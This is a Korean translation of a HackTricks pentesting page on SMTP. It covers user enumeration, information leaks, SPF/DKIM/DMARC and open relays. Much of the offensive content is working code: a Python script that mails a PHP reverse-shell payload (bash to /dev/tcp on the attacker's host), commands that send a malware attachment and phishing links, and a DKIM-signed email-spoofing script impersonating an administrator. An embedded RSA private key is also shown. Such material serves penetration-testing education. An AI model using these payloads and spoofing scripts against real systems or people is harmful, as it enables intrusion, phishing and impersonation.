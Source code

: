 # 25,465,587 - Pentesting SMTP/s

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**즉시 사용 가능한 취약점 평가 및 침투 테스트 설정**. 20개 이상의 도구와 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않으며, 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **기본 정보**

**간단한 메일 전송 프로토콜 (SMTP)**는 **이메일을 전송하고 수신하는** 데 사용되는 TCP/IP 프로토콜입니다. 수신자의 끝에서 메시지를 대기열에 넣는 데 한계가 있기 때문에, SMTP는 종종 **POP3 또는 IMAP**과 함께 사용됩니다. 이러한 추가 프로토콜은 사용자가 서버 메일박스에 메시지를 저장하고 주기적으로 다운로드할 수 있도록 합니다.

실제로 **이메일 프로그램**은 **이메일 전송을 위해 SMTP를 사용**하고, **수신을 위해 POP3 또는 IMAP을 사용**하는 것이 일반적입니다. 유닉스 기반 시스템에서는 **sendmail**이 이메일 용도로 가장 자주 사용되는 SMTP 서버로 두드러집니다. Sendmail이라는 상용 패키지는 POP3 서버를 포함하고 있습니다. 또한, **Microsoft Exchange**는 SMTP 서버를 제공하며 POP3 지원을 포함할 수 있는 옵션을 제공합니다.

**기본 포트:** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

피해자가 **이메일을 보내도록 만들 기회가 있다면** (예: 웹 페이지의 연락처 양식을 통해), 그렇게 하세요. 왜냐하면 **메일의 헤더를 통해 피해자의 내부 토폴로지에 대해 알 수 있기 때문입니다.**

또한 **존재하지 않는 주소로 그 서버에 이메일을 보내려고 시도하여 SMTP 서버에서 이메일을 받을 수 있습니다** (서버가 공격자에게 NDN 메일을 보낼 것이기 때문입니다). 그러나 허용된 주소에서 이메일을 보내고 (SPF 정책을 확인하세요) NDN 메시지를 받을 수 있는지 확인해야 합니다.

또한 **다양한 내용을 보내보세요. 헤더에서 더 흥미로운 정보를 찾을 수 있습니다**: `X-Virus-Scanned: by av.domain.com`\
EICAR 테스트 파일을 보내야 합니다.\
**AV**를 감지하면 **알려진 취약점을 악용할 수 있습니다.**

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### 조직의 MX 서버 찾기
```bash
dig +short mx google.com
```
### 열거
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - 정보 유출

서버가 NTLM 인증(Windows)을 지원하는 경우, 민감한 정보(버전)를 얻을 수 있습니다. 더 많은 정보는 [**여기**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)에서 확인하세요.
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
Or **automate** this with **nmap** plugin `smtp-ntlm-info.nse`

### Internal server name - 정보 유출

Some SMTP servers auto-complete a sender's address when command "MAIL FROM" is issued without a full address, disclosing its internal name:
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

포트 25의 패킷에서 비밀번호를 스니핑하는지 확인하세요.

### [Auth bruteforce](../../generic-methodologies-and-resources/brute-force.md#smtp)

## 사용자 이름 브루트포스 열거

**인증이 항상 필요하지는 않습니다.**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### 자동 도구
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## DSN 보고서

**전달 상태 알림 보고서**: 조직에 **잘못된 주소**로 **이메일**을 보내면, 조직은 해당 주소가 잘못되었음을 알리기 위해 **메일을 다시 보내** 알려줍니다. 반환된 이메일의 **헤더**에는 가능한 **민감한 정보**(보고서와 상호작용한 메일 서비스의 IP 주소나 안티바이러스 소프트웨어 정보 등)가 **포함**될 것입니다.

## [명령어](smtp-commands.md)

### 리눅스 콘솔에서 이메일 보내기
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### Python으로 이메일 보내기

<details>

<summary>여기에 Python 코드</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP 스머글링

SMTP 스머글링 취약점은 모든 SMTP 보호를 우회할 수 있게 해줍니다 (보호에 대한 자세한 내용은 다음 섹션을 참조하십시오). SMTP 스머글링에 대한 더 많은 정보는 다음을 확인하십시오:

{% content-ref url="smtp-smuggling.md" %}
[smtp-smuggling.md](smtp-smuggling.md)
{% endcontent-ref %}

## 메일 스푸핑 대응책

조직은 SMTP 메시지를 스푸핑하는 것이 용이하기 때문에 **SPF**, **DKIM**, **DMARC**를 사용하여 그들의 이름으로 무단 이메일이 전송되는 것을 방지합니다.

**이 대응책에 대한 완전한 가이드**는 [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/)에서 확인할 수 있습니다.

### SPF

{% hint style="danger" %}
SPF [는 2014년에 "사용 중지"되었습니다](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/). 이는 `_spf.domain.com`에 **TXT 레코드**를 생성하는 대신 `domain.com`에 **동일한 구문**을 사용하여 생성해야 함을 의미합니다.\
또한, 이전 SPF 레코드를 재사용하기 위해 `"v=spf1 include:_spf.google.com ~all"`과 같은 것을 찾는 것이 일반적입니다.
{% endhint %}

**발신자 정책 프레임워크**(SPF)는 메일 전송 에이전트(MTA)가 이메일을 전송하는 호스트가 조직에서 정의한 승인된 메일 서버 목록을 조회하여 인증되었는지를 확인할 수 있게 해주는 메커니즘입니다. 이 목록은 **도메인 이름을 대신하여 이메일을 전송할 수 있는** IP 주소/범위, 도메인 및 기타 엔티티를 지정하며, SPF 레코드에 다양한 "**메커니즘**"을 포함합니다.

#### 메커니즘

[위키백과](https://en.wikipedia.org/wiki/Sender\_Policy\_Framework)에서:

| 메커니즘 | 설명                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | 항상 일치; 이전 메커니즘에 의해 일치하지 않는 모든 IP에 대해 `-all`과 같은 기본 결과에 사용됩니다.                                                                                                                                                                                                                                  |
| A         | 도메인 이름에 발신자의 주소로 확인할 수 있는 주소 레코드(A 또는 AAAA)가 있는 경우 일치합니다.                                                                                                                                                                                                                   |
| IP4       | 발신자가 주어진 IPv4 주소 범위에 있는 경우 일치합니다.                                                                                                                                                                                                                                                                              |
| IP6       | 발신자가 주어진 IPv6 주소 범위에 있는 경우 일치합니다.                                                                                                                                                                                                                                                                              |
| MX        | 도메인 이름에 발신자의 주소로 확인할 수 있는 MX 레코드가 있는 경우 일치합니다 (즉, 메일이 도메인의 수신 메일 서버 중 하나에서 옵니다).                                                                                                                                                                          |
| PTR       | 클라이언트 주소의 도메인 이름(PTR 레코드)이 주어진 도메인에 있고 해당 도메인 이름이 클라이언트 주소로 확인되는 경우(정방향 확인된 역 DNS) 일치합니다. 이 메커니즘은 권장되지 않으며 가능한 한 피해야 합니다.                                                                                     |
| EXISTS    | 주어진 도메인 이름이 어떤 주소로 확인되는 경우 일치합니다 (확인되는 주소에 관계없이). 이는 드물게 사용됩니다. SPF 매크로 언어와 함께 사용하면 DNSBL 쿼리와 같은 더 복잡한 일치를 제공합니다.                                                                                                                           |
| INCLUDE   | 다른 도메인의 정책을 참조합니다. 해당 도메인의 정책이 통과하면 이 메커니즘도 통과합니다. 그러나 포함된 정책이 실패하면 처리는 계속됩니다. 다른 도메인의 정책에 완전히 위임하려면 리디렉션 확장을 사용해야 합니다.                                                                                     |
| REDIRECT  | <p>리디렉션은 SPF 정책을 호스팅하는 다른 도메인 이름에 대한 포인터로, 여러 도메인이 동일한 SPF 정책을 공유할 수 있게 해줍니다. 이는 동일한 이메일 인프라를 공유하는 많은 도메인과 작업할 때 유용합니다.</p><p>리디렉션 메커니즘에 표시된 도메인의 SPF 정책이 사용됩니다.</p> |

**정량자**를 식별하는 것도 가능하며, 이는 **메커니즘이 일치할 경우 수행해야 할 작업**을 나타냅니다. 기본적으로 **정량자 "+"**가 사용됩니다 (따라서 어떤 메커니즘이 일치하면 허용된다는 의미입니다).\
일반적으로 각 SPF 정책의 끝에 **\~all** 또는 **-all**과 같은 것을 볼 수 있습니다. 이는 **발신자가 어떤 SPF 정책과도 일치하지 않을 경우 이메일을 신뢰할 수 없는 것으로 태그(\~)하거나 이메일을 거부(-)해야 함을 나타냅니다.**

#### 정량자

정책 내의 각 메커니즘은 의도된 결과를 정의하기 위해 네 가지 정량자 중 하나로 접두어를 붙일 수 있습니다:

* **`+`**: PASS 결과에 해당합니다. 기본적으로 메커니즘은 이 정량자를 가정하므로 `+mx`는 `mx`와 동일합니다.
* **`?`**: NEUTRAL 결과를 나타내며, NONE(특정 정책 없음)과 유사하게 처리됩니다.
* **`~`**: SOFTFAIL을 나타내며, NEUTRAL과 FAIL 사이의 중간 지점 역할을 합니다. 이 결과를 충족하는 이메일은 일반적으로 수락되지만 적절히 표시됩니다.
* **`-`**: FAIL을 나타내며, 이메일이 즉시 거부되어야 함을 제안합니다.

다음 예제에서는 **google.com의 SPF 정책**이 설명됩니다. 첫 번째 SPF 정책 내에서 다른 도메인의 SPF 정책이 포함된 것을 주목하십시오:
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
전통적으로 올바른/아무 SPF 레코드가 없는 도메인 이름을 스푸핑하는 것이 가능했습니다. **현재**는 **유효한 SPF 레코드가 없는 도메인**에서 오는 **이메일**이 **자동으로 거부되거나 신뢰할 수 없는 것으로 표시될 가능성이 높습니다**.

도메인의 SPF를 확인하려면 다음과 같은 온라인 도구를 사용할 수 있습니다: [https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM은 아웃바운드 이메일에 서명하는 데 사용되며, 외부 메일 전송 에이전트(MTA)가 DNS에서 도메인의 공개 키를 검색하여 이를 검증할 수 있도록 합니다. 이 공개 키는 도메인의 TXT 레코드에 위치합니다. 이 키에 접근하려면 선택자와 도메인 이름을 모두 알아야 합니다.

예를 들어, 키를 요청하려면 도메인 이름과 선택자가 필수적입니다. 이는 메일 헤더 `DKIM-Signature`에서 찾을 수 있습니다, 예: `d=gmail.com;s=20120113`.

이 정보를 가져오는 명령은 다음과 같을 수 있습니다:
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (Domain-based Message Authentication, Reporting & Conformance)

DMARC는 SPF 및 DKIM 프로토콜을 기반으로 이메일 보안을 강화합니다. 특정 도메인에서 오는 이메일을 처리하는 데 있어 메일 서버가 따라야 할 정책을 설명하며, 인증 실패를 처리하는 방법과 이메일 처리 작업에 대한 보고서를 어디로 보낼지에 대한 내용을 포함합니다.

**DMARC 레코드를 얻으려면 서브도메인 \_dmarc를 쿼리해야 합니다.**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC 태그

| 태그 이름 | 목적                                         | 샘플                             |
| -------- | --------------------------------------------- | ------------------------------- |
| v        | 프로토콜 버전                                | v=DMARC1                        |
| pct      | 필터링에 적용되는 메시지의 비율             | pct=20                          |
| ruf      | 포렌식 보고서의 보고 URI                    | ruf=mailto:authfail@example.com |
| rua      | 집계 보고서의 보고 URI                      | rua=mailto:aggrep@example.com   |
| p        | 조직 도메인에 대한 정책                     | p=quarantine                    |
| sp       | OD의 하위 도메인에 대한 정책                | sp=reject                       |
| adkim    | DKIM의 정렬 모드                             | adkim=s                         |
| aspf     | SPF의 정렬 모드                              | aspf=r                          |

### **하위 도메인은 어떻게 되나요?**

**여기서** [**출처**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
메일을 보내고자 하는 각 하위 도메인에 대해 별도의 SPF 레코드가 필요합니다.\
다음 내용은 원래 openspf.org에 게시된 것으로, 이와 같은 정보에 대한 훌륭한 자원이었습니다.

> 데몬 질문: 하위 도메인은 어떻게 되나요?
>
> pielovers.demon.co.uk에서 메일을 받고, pielovers에 대한 SPF 데이터가 없다면, 한 단계 올라가서 demon.co.uk에 대한 SPF를 테스트해야 할까요? 아니요. 데몬의 각 하위 도메인은 다른 고객이며, 각 고객은 자신의 정책을 가질 수 있습니다. 데몬의 정책이 기본적으로 모든 고객에게 적용되는 것은 의미가 없습니다. 데몬이 그렇게 하기를 원한다면, 각 하위 도메인에 대한 SPF 레코드를 설정할 수 있습니다.
>
> 따라서 SPF 발행자에게 주는 조언은 다음과 같습니다: A 또는 MX 레코드가 있는 각 하위 도메인 또는 호스트 이름에 대해 SPF 레코드를 추가해야 합니다.
>
> 와일드카드 A 또는 MX 레코드가 있는 사이트는 다음 형식의 와일드카드 SPF 레코드도 가져야 합니다: \* IN TXT "v=spf1 -all"

이것은 의미가 있습니다 - 하위 도메인은 매우 다른 지리적 위치에 있을 수 있으며 매우 다른 SPF 정의를 가질 수 있습니다.

### **오픈 릴레이**

이메일이 전송될 때, 스팸으로 표시되지 않도록 하는 것이 중요합니다. 이는 종종 **수신자가 신뢰하는 릴레이 서버**를 사용하여 달성됩니다. 그러나 일반적인 문제는 관리자가 **어떤 IP 범위가 허용되는지 완전히 인식하지 못할 수 있다는 점**입니다. 이러한 이해 부족은 SMTP 서버 설정에서 실수로 이어질 수 있으며, 이는 보안 평가에서 자주 식별되는 위험입니다.

일부 관리자가 잠재적 또는 진행 중인 클라이언트와의 통신과 관련하여 이메일 배달 문제를 피하기 위해 사용하는 우회 방법은 **모든 IP 주소에서의 연결을 허용하는 것**입니다. 이는 SMTP 서버의 `mynetworks` 매개변수를 모든 IP 주소를 수용하도록 구성하여 수행됩니다.
```bash
mynetworks = 0.0.0.0/0
```
메일 서버가 오픈 릴레이인지 확인하기 위해 (즉, 외부 소스에서 이메일을 전달할 수 있다는 의미), `nmap` 도구가 일반적으로 사용됩니다. 이 도구에는 이를 테스트하기 위한 특정 스크립트가 포함되어 있습니다. `nmap`을 사용하여 포트 25에서 서버(예: IP 10.10.10.10)에 대해 자세한 스캔을 수행하는 명령은:
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **도구**

* [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **SPF 및 DMARC 잘못 구성 확인**
* [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **SPF 및 DMARC 구성 자동 가져오기**

### 스푸핑 이메일 보내기

* [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
* [**http://www.anonymailer.net/**](http://www.anonymailer.net)
* [**https://emkei.cz/**](https://emkei.cz/)

**또는 도구를 사용할 수 있습니다:**

* [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
{% hint style="warning" %}
dkim python lib에서 키를 파싱하는 데 **오류가 발생하는 경우** 다음 것을 자유롭게 사용하세요.\
**참고**: 이것은 openssl 개인 키가 **dkim에 의해 파싱될 수 없는** 경우 빠른 검사를 수행하기 위한 더러운 수정입니다.
```
-----BEGIN RSA PRIVATE KEY-----
MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**또는 수동으로 할 수도 있습니다:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># 이 코드는 서명되지 않은 메시지를 보냅니다
</strong><strong>mail("your_email@gmail.com", "테스트 제목!", "안녕하세요! 이것은 테스트입니다", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{% endtab %}
{% endtabs %}

### **더 많은 정보**

**이러한 보호 조치에 대한 자세한 정보는** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/) **에서 확인하세요.**

### **기타 피싱 지표**

* 도메인의 연령
* IP 주소를 가리키는 링크
* 링크 조작 기술
* 의심스러운 (비정상적인) 첨부파일
* 손상된 이메일 내용
* 메일 헤더와 다른 값 사용
* 유효하고 신뢰할 수 있는 SSL 인증서의 존재
* 웹 콘텐츠 필터링 사이트에 페이지 제출

## SMTP를 통한 데이터 유출

**SMTP를 통해 데이터를 보낼 수 있다면** [**이것을 읽어보세요**](../../generic-methodologies-and-resources/exfiltration.md#smtp)**.**

## 구성 파일

### Postfix

일반적으로 설치된 경우 `/etc/postfix/master.cf`에는 사용자가 새 메일을 수신할 때 실행할 **스크립트**가 포함되어 있습니다. 예를 들어 `flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}`라는 줄은 사용자가 mark인 경우 새 메일이 수신되면 `/etc/postfix/filtering`이 실행됨을 의미합니다.

기타 구성 파일:
```
sendmail.cf
submit.cf
```
## References

* [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
